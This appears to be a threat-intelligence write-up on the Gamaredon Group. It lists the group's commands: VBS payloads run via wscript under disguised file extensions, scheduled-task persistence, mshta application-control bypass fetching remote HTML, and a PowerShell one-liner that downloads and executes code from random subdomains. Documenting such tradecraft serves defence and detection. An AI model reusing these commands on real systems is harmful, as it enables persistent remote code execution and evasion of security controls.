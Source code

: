 # Gamaredon Group

## Features

1. The depended.exe payload will execute two VBS scripts:

> "CSIDL_SYSTEM\wscript.exe" CSIDL_PROFILE\appdata\roaming\reflect.rar //e:VBScript //b

>	"CSIDL_SYSTEM\wscript.exe" CSIDL_PROFILE\appdata\local\temp\deep-thoughted. //e:VBScript //b

Then a scheduled task will be created to ensure the durability:SCHTASKS /CREATE /sc minute /mo 10 /tn "deep-thoughted" /tr "wscript.exe " CSIDL_COMMON_PICTURES\deep-thoughted.ppt //e:VBScript //b" /F，the scheduled task runs every 10 minutes.
Of course, the organization will also use MSHTA to bypass application control policies:"CSIDL_SYSTEM\cmd.exe" /c CSIDL_SYSTEM\mshta.exe http://domain/FILM.html /f id=[REDACTED].

2. When the delivered Pterodo malware is active, it will download scripts and tools through other command controllers, and then create scheduled tasks.

```bash
"CSIDL_SYSTEM\wscript.exe" CSIDL_PROFILE\appdata\local\temp\12382. //e:VBScript //b
"CSIDL_SYSTEM\cmd.exe" /c CSIDL_SYSTEM\mshta.exe http://domain/7-ZIP.html /f id=<?,?>
CSIDL_SYSTEM\mshta.exe http://domain/7-ZIP.html /f id=<?,?>
//MSHTA bypass execution
"CSIDL_SYSTEM\schtasks.exe" /CREATE /sc minute /mo 12 /tn "MediaConverter" /tr "wscript.exe " CSIDL_COMMON_MUSIC\mediatv.mov //e:VBScript //b " /F"
"CSIDL_SYSTEM\schtasks.exe" /CREATE /sc minute /mo 12 /tn "VideoHostName" /tr "wscript.exe " CSIDL_COMMON_VIDEO\videotv.m3u //e:VBScript //b " /F"
//Every 12 minutes
```

3. Malicious software often uses random subdomains as command controllers.

```powershell
"powershell.exe" $tmp = $ (New-object net.webclient) .DownloadString('http://'+[System.Net.DNS]::GetHostAddresses([string]$(Get-Random)+'.[domain]')+'/get.php');Invoke-Expression $tmp
```
